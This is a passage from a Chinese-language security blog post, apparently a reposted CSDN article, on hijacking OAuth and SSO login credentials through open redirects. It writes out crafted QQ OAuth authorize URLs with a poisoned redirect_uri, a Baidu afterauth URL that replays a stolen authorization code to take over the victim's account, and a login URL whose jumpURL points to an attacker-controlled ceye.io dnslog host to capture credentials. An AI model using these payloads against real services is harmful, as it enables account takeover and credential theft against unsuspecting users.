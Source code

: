     在这里，我们将要跳转的网址替换到https://passport.baidu.com/phoenix/account/afterauth
    
    ？改为&
    
        

    最后redirect_uri参数值是redirect_uri=带有外部链接的网址&mkey=6f2d1d001e4be09e285ed6931751d0aa
    
    注：带有外部链接的网址是一级域名的信任域！
    
        

payload 发给目标的url：

    https://graph.qq.com/oauth2.0/authorize?client_id=100312028&response_type=code&display=pc&state=1516604022&redirect_uri=带有外部链接的网址&mkey=6f2d1d001e4be09e285ed6931751d0&scope=get_user_info,get_other_info,add_t,add_share
    
        

目标只要打开该链接，并且点击头像登录。那么就会跳转到带有外部链接的网址

此时第三方登录会给用户一个code值，用户会带着code值去访问带有外部链接的网址 而带有外部链接的那个网址会自动加载外部链接，外部链接的作用就是获取referer那么黑客就会获取到code值。

最后劫持登录的payload：

访问第三方登录口

    https://passport.baidu.com/phoenix/account/afterauth?mkey=868b9c0330c56e46a27c8da7f75708d1&code=获取到的code值&state=1516505635
    
        

再访问http://www.baidu.com成功登录目标账户

**sso单点登录**

单点登录（Single Sign On），简称为 SSO，是目前比较流行的企业业务整合的解决方案之一。SSO的定义是在多个应用系统中，用户只需要登录一次就可以访问所有相互信任的应用系统

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20200926200717710.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
漏洞点：www.domain.com -> aaa.domain.com 当A用户登录了www.domain.com后，访问aaa.domain.com无需账号密码，sso会发送凭证给aaa.domain.com。

劫持：抓取sso发送给aaa.domain.com凭证的数据包，将跳转到aaa.domain.com这个值改为我们的dnslog地址。然后将这个链接发送给已经登录www.domain.com的A用户，那么A用户会往aaa.domain.com发送凭证，这时候就被我们的dnslog劫持了-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20200926200741252.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20200926200747307.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20200926200757429.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20200926200804127.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20200926200810797.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20200926200823657.png%23pic_center)-
**注册登录**

新用户注册或者用户登录的时候，网站会传递凭证给用户。这时候通过修改redirect\_url为自己的dnslog，去劫持凭证

    https://aaa.xxxxx.com/MxkEngine/mobilePage/xxdc_register_login/xxdc_login.html?jumpURL=http://www2.hg8l7g.ceye.io?aaa.xxxxx.com/MxkEngine/mobilePage/xxdc_issue/xxdc_ReceiveNoPayment.html?userid=#
    
        